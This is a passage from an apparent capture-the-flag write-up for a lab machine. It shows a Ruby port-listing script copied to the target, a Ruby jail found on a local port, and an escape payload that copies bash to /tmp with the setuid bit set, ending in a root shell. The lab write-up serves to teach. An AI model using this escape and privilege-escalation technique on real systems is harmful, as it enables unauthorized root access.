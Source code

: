 ```bash
    connection\_state = TCP\_STATES.fetch(state)

    local\_IP  = \[local\_IP\].pack('N').unpack('C4').reverse.join('.')
    remote\_IP = \[remote\_IP\].pack('N').unpack('C4').reverse.join('.')

      puts "#{local\_IP}:#{local\_port} " +
        "#{remote\_IP}:#{remote\_port} #{connection\_state}"
  end

  exit(0)
end

root@ip-10-10-250-253:~# scp net.rb noraj@10.10.93.200:
noraj@10.10.93.200's password: 
net.rb                                    100% 1335     1.9MB/s   00:00  
```

Now in the target machine, We run the file using absolute path of ruby command:
```bash
$ echo *        
bin net.rb user.txt

$ /usr/bin/ruby net.rb
127.0.0.53:53 0.0.0.0:0 LISTEN
0.0.0.0:22 0.0.0.0:0 LISTEN
127.0.0.1:31547 0.0.0.0:0 LISTEN
10.10.93.200:22 10.10.250.253:51502 ESTABLISHED

```
There is a port (31547) in Listening mode.

```bash
$ nc 127.0.0.1 31547
$ echo $SHELL
undefined method `echo' for main:Object
$ ls
undefined local variable or method `ls' for main:Object
```
As I guess, it is another ruby file that we're trapped in it. By some researching, you will end up with this payload that copies /bin/bash to /tmp/bash and adds suid for it.
```bash
$ exec %q!cp /bin/bash /tmp/bash; chmod +s /tmp/bash!
$ ls   
bin  net.rb  user.txt
$ id      
uid=1001(noraj) gid=1001(noraj) groups=1001(noraj)
$ sudo -l
[sudo] password for noraj: 
Sorry, user noraj may not run sudo on red-stone-one-carat.
```
We are in a better shell now :)
but let's jump into the shell we copy in /tmp
```bash
$ ls /tmp
bash
systemd-private-5b2a6cae3b3a419ab62d2b0d84e7afc6-haveged.service-FyDjGr
systemd-private-5b2a6cae3b3a419ab62d2b0d84e7afc6-systemd-resolved.service-367yI0
$ ls -la /tmp/bash
-rwsr-sr-x 1 root root 1113504 May 13 14:06 /tmp/bash
$ /tmp/bash -p
bash-4.4# id
uid=1001(noraj) gid=1001(noraj) euid=0(root) egid=0(root) groups=0(root),1001(noraj)
bash-4.4# 
```
